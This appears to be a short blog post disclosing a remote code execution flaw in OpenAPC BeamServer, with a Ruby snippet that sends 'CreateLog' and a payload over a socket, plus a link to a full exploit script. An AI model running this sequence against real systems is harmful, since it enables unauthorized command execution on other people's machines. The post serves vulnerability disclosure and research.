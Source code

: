 ```yaml
---
layout: post
title: OpenAPC BeamServer RCE 
date: 2019-11-05
excerpt: "."
tags: [exploit]
comments: false
---
```

## Open Advanced Process Control BeamServer RCE
The process takes in a few ASCII commands. By placing
a file in the appropiate place when using 'CreateLog',
operating system commands can be executed in the context
of the currently logged in user. 
```
sock.write("CreateLog #{path}\r\n")
res = sock.get_once()
puts res

sock.write(payload + "\r\n")
res = sock.get_once()
puts res

sock.write("ExitUI\r\n")
```
[openapc_beamserver.rb](https://github.com/ceballosm/scratchpad/blob/master/openapc_beamserver_rce.rb)
